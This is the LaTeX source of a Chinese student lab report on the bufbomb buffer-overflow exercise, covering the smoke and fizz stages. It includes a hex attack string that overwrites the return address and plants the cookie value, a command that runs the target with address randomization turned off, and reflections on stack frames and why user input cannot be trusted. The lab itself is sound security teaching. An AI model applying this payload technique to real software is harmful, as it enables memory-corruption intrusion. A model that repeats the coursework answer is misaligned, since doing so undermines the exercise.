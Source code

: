 \documentclass[supercite]{Experimental_Report}
\theoremstyle{definition}
\begin{document}
\begin{lstlisting}[language={}, caption={阶段2最终攻击串 fizz\_probe.txt}, label={lst:lab4-fizz-payload}]
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41 41 41 ba c0 11 0c
60 ce ff ff ff 7f 00 00 6d 14 40 00 00 00 00 00
\end{lstlisting}

由于该解法依赖稳定的栈地址，验证时需要关闭地址随机化，例如使用 \texttt{setarch \$(uname -m) -R ./bufbomb U202490042 fizz\_probe.txt 1}，或在 \texttt{gdb} 中开启 \texttt{set disable-randomization on} 后运行。

\noindent\textbf{4.实验结果：}程序成功输出 \texttt{Fizz!: You called fizz(0xc11c0ba)}，说明控制流已从 \texttt{getbuf} 正确转入 \texttt{fizz} 内部比较逻辑，且 \texttt{fizz} 读取到的 \texttt{val} 与 \texttt{cookie} 完全一致。与阶段1相比，本阶段不再只是单纯改写返回地址，而是进一步利用溢出伪造了新的栈帧语义，使目标函数把攻击者布置的数据当作合法局部变量读取。这说明缓冲区溢出不仅能改变跳转目标，还能联动破坏函数上下文和参数语义，其危害明显高于最简单的返回地址覆盖。

\subsection{实验小结}
本次实验以 \texttt{bufbomb} 为对象，完成了 smoke 与 fizz 两个阶段的缓冲区溢出攻击练习。在第一阶段中，我亲眼看到，只要将保存的返回地址悄悄替换掉，程序就会乖乖跳到我们指定的地方去执行；第二阶段则更进一步，不仅要骗过程序的执行路径，还要让目标函数误以为自己收到了"合法"的参数，这让我深刻感受到缓冲区溢出的威力远不止于让程序崩溃那么简单。

回顾整个实验过程，我发现自己用到了许多课上学过的知识：函数调用时的栈帧结构、小端序的字节存储方式、\texttt{gdb} 的断点调试，还有反汇编代码的阅读方法。以前这些知识在我眼里不过是一些孤立的概念，而这次实验把它们串联在了一起。测量 \texttt{buf} 与返回地址之间的偏移、找到 \texttt{smoke} 和 \texttt{fizz} 的入口地址、把 \texttt{cookie} 藏进精心构造的输入文件……每一步都让我更真切地体会到：数据和代码在内存里本质上没有区别，程序信任什么，攻击者就能伪造什么。

通过这次实验，我有三点收获让我印象深刻。第一，栈帧不再是课本上的示意图，而是真实存在于内存某个地址处的字节序列，我可以用调试器直接看到它、修改它。第二，攻击并不神秘，它不过是把程序自己的运行规则用在了出乎意料的地方。第三，也是最重要的一点，安全问题的根源往往不是技术有多复杂，而是程序员在写代码时忽略了"用户输入不可信"这一基本原则。如果后续还有机会，我很想继续完成 \texttt{bang} 和 \texttt{boom} 阶段，亲自验证一下开启栈保护和地址随机化之后攻击为什么会失效，把"怎么攻"和"怎么防"这两件事放在一起对比着理解。
\end{document}
